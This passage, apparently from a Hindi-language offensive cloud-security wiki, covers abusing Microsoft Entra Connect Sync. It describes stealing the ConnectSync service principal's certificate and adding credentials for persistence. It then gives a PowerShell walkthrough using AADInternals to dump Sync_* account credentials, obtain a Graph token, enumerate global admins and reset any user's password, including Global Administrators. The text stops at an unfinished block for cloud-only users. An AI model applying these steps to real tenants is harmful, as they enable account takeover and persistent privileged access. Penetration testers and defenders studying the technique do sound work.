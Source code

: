 यह उल्लेख किया गया है कि इस एप्लिकेशन का SP अभी भी एक undocumented API का उपयोग करके कुछ विशेषाधिकार प्राप्त क्रियाएँ करने के लिए उपयोग किया जा सकता है, लेकिन अभी तक कोई PoC नहीं मिला है।\
किसी भी मामले में, यह सोचते हुए कि यह संभव हो सकता है, यह और अधिक खोजने में दिलचस्पी होगी कि इस सेवा प्रिंसिपल के रूप में लॉगिन करने के लिए प्रमाणपत्र कैसे खोजें और इसका दुरुपयोग करने का प्रयास करें।

यह [ब्लॉग पोस्ट](https://posts.specterops.io/update-dumping-entra-connect-sync-credentials-4a9114734f71) `Sync_*` उपयोगकर्ता से इस सेवा प्रिंसिपल में परिवर्तन से पहले जल्द ही जारी किया गया, जिसमें बताया गया कि प्रमाणपत्र सर्वर के अंदर संग्रहीत था और इसे खोजना, इसका PoP (Proof of Possession) उत्पन्न करना और ग्राफ़ टोकन प्राप्त करना संभव था, और इसके साथ, सेवा प्रिंसिपल में एक नया प्रमाणपत्र जोड़ने में सक्षम होना (क्योंकि एक **सेवा प्रिंसिपल** हमेशा अपने लिए नए प्रमाणपत्र असाइन कर सकता है) और फिर इसे SP के रूप में स्थिरता बनाए रखने के लिए उपयोग करना।

इन क्रियाओं को करने के लिए, निम्नलिखित उपकरण प्रकाशित किए गए हैं: [SharpECUtils](https://github.com/hotnops/ECUtilities/tree/main/SharpECUtils)।

मेरे अनुभव में, प्रमाणपत्र अब उस स्थान पर संग्रहीत नहीं है जहाँ पिछले उपकरण ने इसे खोजने की कोशिश की थी, और इसलिए, उपकरण अब काम नहीं करता है। इसलिए आगे की खोज की आवश्यकता हो सकती है।

### Abusing Sync\_\* [DEPRECATED]

> [!WARNING]
> पहले एक उपयोगकर्ता `Sync_*` नाम से Entra ID में बहुत संवेदनशील अनुमतियों के साथ बनाया गया था, जिसने किसी भी उपयोगकर्ता का पासवर्ड संशोधित करने या सेवा प्रिंसिपल में एक नया क्रेडेंशियल जोड़ने जैसी विशेषाधिकार प्राप्त क्रियाएँ करने की अनुमति दी। हालांकि, जनवरी 2025 से यह उपयोगकर्ता अब डिफ़ॉल्ट रूप से नहीं बनाया जाता है क्योंकि अब एप्लिकेशन/SP **`ConnectSyncProvisioning_ConnectSync_<id>`** का उपयोग किया जाता है। हालांकि, यह अभी भी कुछ वातावरण में मौजूद हो सकता है, इसलिए इसकी जांच करना उचित है।

**`Sync_*`** खाते को समझौता करना किसी भी उपयोगकर्ता (जिसमें Global Administrators शामिल हैं) का **पासवर्ड रीसेट** करना संभव बनाता है।
```bash
Install-Module -Name AADInternals -RequiredVersion 0.9.0 # Uninstall-Module AADInternals  if you have a later version
Import-Module AADInternals

# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह भी संभव है कि केवल **क्लाउड** उपयोगकर्ताओं के पासवर्ड को संशोधित किया जाए (भले ही यह अप्रत्याशित हो)।
```bash
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
```